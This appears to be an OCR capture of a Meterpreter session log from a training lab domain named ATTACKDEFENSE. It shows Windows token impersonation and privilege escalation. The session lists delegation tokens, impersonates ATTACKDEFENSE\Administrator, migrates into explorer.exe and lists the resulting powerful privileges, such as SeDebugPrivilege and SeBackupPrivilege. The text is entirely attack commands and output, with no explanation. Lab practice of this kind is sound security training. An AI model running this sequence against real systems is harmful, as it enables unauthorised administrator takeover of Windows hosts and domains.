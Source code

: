 ```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE

Impersonation Tokens Available
========================================
No tokens available

meterpreter > impersonate_token "ATTACKDEFENSE\Administrator"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user ATTACKDEFENSE\Administrator
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
meterpreter > getprivs
[-] stdapi_sys_config_getprivs: Operation failed: Access is denied.
meterpreter > pgrep explorer
3996
meterpreter > migrate 3996
[*] Migrating from 5108 to 3996...
[*] Migration completed successfully.
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

```